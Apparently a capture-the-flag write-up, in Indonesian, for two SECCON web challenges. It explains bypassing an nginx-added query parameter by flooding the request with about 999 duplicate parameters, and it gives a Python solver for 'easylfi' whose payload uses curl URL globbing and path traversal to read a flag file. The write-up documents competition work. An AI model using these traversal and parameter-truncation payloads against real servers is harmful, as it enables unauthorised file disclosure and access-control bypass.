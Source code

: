 # web
---
## skipinx

### TL;DR
Kita hanya perlu membuat query proxy yang banyak saat mengirimkan HTTP request, sehingga nantinya server node-js akan men-truncate jumlah yang berlebihan yaitu sampai 999.

### Step
Pada challenge ini kita diberikan file berupa applikasi yang menggunakan express js. 
kita disuruh untuk membypass waf dari frontend server, waf-nya sebagai berikut

```nginx
server {
  listen 8080 default_server;
  server_name nginx;

  location / {
    set $args "${args}&proxy=nginx";
    proxy_pass http://web:3000;
  }
}
```

dimana kita akan diberikan query &proxy=nginx pada setiap requests yang kita buat, sehingga akan tertangkap oleh backend dan membuat kode dibawah ini ter trigger

```js
app.get("/", (req, res) => {
  console.log(req.query)
  req.query.proxy.includes("nginx") <- akan ter-trigger
    ? res.status(400).send("Access here directly, not via nginx :(") <- jika benar maka kita akan mendapatkan ini
    : res.send(`Congratz! You got a flag: ${FLAG}`);
});
```

agar prosess debugging web app ini jadi lebih mudah, saya perlu untuk mendeploy docker untuk memantau setiap request yang masuk, dan saya juga perlu untuk mengubah sedikit kode js-nya agar lebih mudah untuk kita mendebugging nantinya.

```js
...snip...
app.get("/", (req, res) => {
  console.log(req.query)// berguna untuk debugging
  req.query.proxy.includes("nginx")
    ? res.status(400).send("Access here directly, not via nginx :(")
    : res.send(`Congratz! You got a flag: ${FLAG}`);
});
...snip...
```

Kemudian jalankan docker

![](Pasted%20image%2020221113195707.png)

Dari sini kita bisa testing dengan mudah, kita coba-coba saja yang menurut kita bisa untuk membypass waf tersebut.

Awalnya saya mencoba untuk memasukkan char dari 1-255 kedalam query, tapi hasilnya nihil. Kemudian saya kepikiran untuk memberikan query yang banyak dan ternyata work. 

Bisa dilihat di log nginx pada docker yang tadi kita deploy, bahwa query terlimit sebanyak kurang lebih 1000 list.

![](Pasted%20image%2020221113195754.png)

Kita tinggal masukkan query proxy sebanyak 999 kali, dan kita mendapatkan flagnya!

![](Pasted%20image%2020221113195729.png)

## easylfi
### solver

```python
import requests

URL = "http://easylfi.seccon.games:3000"
# URL = "http://127.0.0.1:3000"

def req(url=URL):
    req = requests.Request("GET", url)
    res = req.prepare()
    payload = (
        "/{.}./{.}./{/proc/self/cmdline,flag.txt}" +  # bypass double dot
        "?" +
        # membuang SECCON dari output
        "&{/proc/self/cmdline,flag.txt}={" +
        "&{={}" +
        "&{}=}{" +
        "&{%00--_curl_--file:///app/public/../../flag.txt%0aSECCON}="
    )
    res.url = url + payload
    res = requests.Session().send(res)
    print(res.text)
req()
```